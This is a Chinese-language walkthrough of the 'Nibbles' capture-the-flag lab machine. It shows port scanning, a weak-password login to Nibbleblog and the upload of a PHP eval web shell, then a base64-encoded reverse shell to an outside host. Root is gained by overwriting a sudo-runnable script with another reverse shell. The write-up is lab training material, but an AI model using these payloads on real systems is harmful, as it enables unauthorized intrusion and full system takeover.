

nmap

```bash
sudo nmap -T4 -Pn -n -r -p- -vv -sV 10.10.10.75
```


80端口


查看源码


Nibbleblog


```bash
https://seclists.org/search.html?q=NibbleBlog
```

4.0.3存在代码执行，但是不知道靶机是什么版本


```bash
https://seclists.org/fulldisclosure/2015/Sep/5
```


根据描述是需要先登录的。


弱口令,密码就是题目名称小写。

admin/nibbles

找到上传图片的位置，安装插件



上传shell.php

```php
<?php @eval($_POST['shell']);?>
```


报错，但是文件上传成功


上传文件的位置，文件被重命名，但是后缀没变

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/
```


执行命令成功


反弹shell

```bash
system("bash+-c+'{echo,YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNi4yLzIzMzMzIDA%2bJjE%3d}|{base64,-d}|{bash,-i}'");


#decode

bash -i >& /dev/tcp/10.10.16.2/23333 0>&1

```


也可以直接用蚁剑工具


```php
#whoami 当前用户
#id 当前用户权限
#sudo -l 查看有root权限的程序
```

提权


发现  /home/nibbler下有个压缩包，解压


直接覆盖monitor.sh的内容

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.16.2/24444 0>&1"'>monitor.sh
```

执行脚本

```bash
sudo ./monitor.sh
```

获得root权限


